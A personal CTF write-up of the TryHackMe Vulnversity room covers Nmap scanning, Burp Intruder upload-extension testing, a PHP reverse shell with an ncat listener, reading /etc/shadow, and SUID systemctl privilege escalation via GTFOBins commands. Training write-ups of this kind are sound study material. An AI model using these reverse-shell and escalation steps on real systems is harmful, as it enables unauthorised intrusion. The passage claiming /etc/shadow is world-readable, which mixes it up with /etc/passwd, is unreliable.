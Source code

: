 # Vulnversity: BurpSuite, Nmap, GTFOBins, systemctl, SUID

Recently I performed the ***Vulnversity*** challenge on TryHackMe. The following tools were utilized:
- Burp Suite on https://portswigger.net/burp
- Nmap on https://nmap.org/book/man.html
- GTFOBins on https://gtfobins.github.io/ and systemctl [SUID] on https://gtfobins.github.io/gtfobins/systemctl/

1. As usual, Nmap was performed on the target machine. The following syntax was utilized:
   $${\color{red}nmap \space\color{lightgreen} \space\color{lightblue} \space\color{lightgreen}-sV \space\color{lightblue}-p-5000 \space\color{lightgreen}-v \space\color{lightblue}-oN \space vulnersity \space\color{orange}10.10.85.178}$$

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-12%20171223.png)
   
   The ***-sV -p -oN*** options were explained on https://github.com/jtoalu/Nmap-Wreath 
   
   Verbose mode is enabled by ***-v*** option. Features such as the extra OS identification data, completion time estimates, open port alerts, and extra informational messages are easily identified in the output with verbosity enabled. This extra info is often helpful during interactive scanning. It gives hints/clues whether we should continue the scanning or not (when we do not know what should be the highest port number to be scanned), so specifying ***-v*** option when scanning a single machine is helpful for us to decide when to stop/terminate the scanning.

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-12%20171449.png)
   
2. The result of the ***nmap*** scanning informed us there is a website on port 3333 on the target machine. Tools such as https://www.kali.org/tools/dirbuster/ and https://www.kali.org/tools/gobuster/ can be utilized to find out any other information about the website. The result contains several information and the /internal is the most useful information on this challenge. After navigating to the ***internal*** folder/path/directory of the website, we found a webpage to upload a file. 

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20232846.png)

We shall utilize ***Burp Suite*** to find out which file extension is accepted to be uploaded through the webpage.

3. We need to setup the ***proxy*** to be utilized by our web browser and Burp Suite.

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20232946.png)

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20233222.png)

4. After completing the setup, we send the web visit on the Burp Suite to the ***intruder*** tool. We create a text file with the following extensions:
.php
.php3
.php4
.php5
.phtml 
and let the ***intruder*** finding out which file extension is accepted to be uploaded through the webpage.

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20232625.png)

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20232644.png)

5. The ***intruder*** informed us that ***.phtml*** is the accepted file extension.

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20232550.png)

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-03%20232608.png)

6. We shall utlize the code on https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php which is provided by [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) to obtain a ***reverse shell***. Save the ***php*** code into a ***.phtml*** file and upload it through the http://MACHINE_IP:3333/internal/ webpage. Do not forget to update the IP Address and port (optional) in the ***php*** code according to the information of our attacking machine.

$ip = '127.0.0.1';  // CHANGE THIS

$port = 1234;       // CHANGE THIS

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-04%20224540.png)

7. After successfully uploading the ***.phtml*** file, open an [Ncat](https://nmap.org/ncat/guide/ncat-usage.html) ***listener*** on our attacking machine for an incoming connection from the target machine. We then execute the uploaded file through http://MACHINE_IP:3333/internal/uploads/php-reverse-shell.phtml 

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-04%20224601.png)

The command ***ncat -lvnp 1234*** is used with the ncat utility, which is part of the nmap suite. Here is a breakdown of what each part of the command means:

-l: This option tells ncat to listen for incoming connections. It sets up a listening mode.
-v: This stands for verbose mode, which provides more detailed output about what ncat is doing.
-n: This option prevents ncat from performing DNS lookups on the specified addresses, which can speed up the connection process.
-p 1234: This specifies the port number 1234 on which ncat will listen for incoming connections.

So, ***ncat -lvnp 1234*** sets up ncat to listen on port 1234, providing verbose output and avoiding DNS lookups. 

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-04%20224050.png)

8. The command ***cat /etc/shadow*** shall display the fundamental component in Linux sytems, serving as a database for all user accounts on the system. It is a plain text file that contains essential information for user authentication and identification. The file is owned by the root user and typically has 644 permissions, meaning it is readable by all system users but only modifiable by root or users with sudo privileges.

Structure and Content of /etc/passwd
- Each line in the /etc/passwd file represents a single user account and contains seven fields separated by colons (:). These fields are as follows:
- Username: The unique user identifier for login.
- Password: A placeholder (usually an x) indicating that the actual encrypted password is stored in the /etc/shadow file.
- UID (User ID): A numerical identifier for the user, with the root user typically having a UID of 0.
- GID (Group ID): A numerical identifier representing the user's primary group.
- GECOS: A comma-separated list providing additional information about the user, such as full name and contact details.
- Home Directory: The absolute path to the user's home directory.
- Login Shell: The absolute path to the user's default shell upon login

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-04%20224144.png)

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-04%20224436.png)

9. Now that we have compromised the target machine, we will escalate our privileges and become the superuser (root). In Linux, ***SUID*** (set owner userId upon execution) is a particular type of file permission given to a file. ***SUID*** gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it). For example, the binary file to change our password has the SUID bit set on it (/usr/bin/passwd). This is because to change our password, we will need to write to the shadowers file that we do not have access to; ***root*** does, so it has ***root*** privileges to make the right changes.

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/suid-linux.png)

10. Execute the following command:

$${\color{red}find \space\color{lightgreen} / \space -user \space root \space -perm \space -4000 \space -exec \space ls \space -ldb}$$ {} \\;

The ***ls*** command in Linux is used to list files and directories. When we use the ***-l, -d, and -b*** options together, each option modifies the output in a specific way:

-l (long listing format): This option provides detailed information about each file or directory, including permissions, number of links, owner, group, size, and timestamp.
-d (directory): Normally, ls lists the contents of directories. With the -d option, ls will list the directory itself, not its contents.
-b (escape): This option prints non-printable characters in file names as backslash-escaped characters.

So, ***ls -ldb*** will list directories themselves (not their contents) in a long format, with non-printable characters in file names escaped.

Privilege escalation using the find command with the ***-perm -4000*** option is a common technique in Linux environments. The ***-perm -4000*** option in the find command is used to search for files with the ***SUID*** (Set User ID) bit set. When a file has the SUID bit set, it allows users to execute the file with the permissions of the file’s owner, which is often the ***root*** user. This can be exploited to escalate privileges if the file is vulnerable.

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-08%20183406.png)

11. The ouput shows the ***/bin/systemctl*** is an ***SUID*** file and we can obtain a ***root*** access through https://gtfobins.github.io/gtfobins/systemctl/ 

Execute the following command:

TF=$(mktemp).service  
echo '[Service]  
Type=oneshot  
ExecStart=/bin/sh -c "id > /tmp/output"  
[Install]  
WantedBy=multi-user.target' > $TF  
sudo systemctl link $TF  
sudo systemctl enable --now $TF

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-12%20100037.png)

![](https://github.com/jtoalu/Vulnversity-BurpSuite-Nmap-GTFOBins-systemctl/blob/main/Screenshot%202024-08-12%20100525.png)

Note to Self: https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax and https://stackoverflow.com/questions/11509830/how-to-add-color-to-githubs-readme-md-file
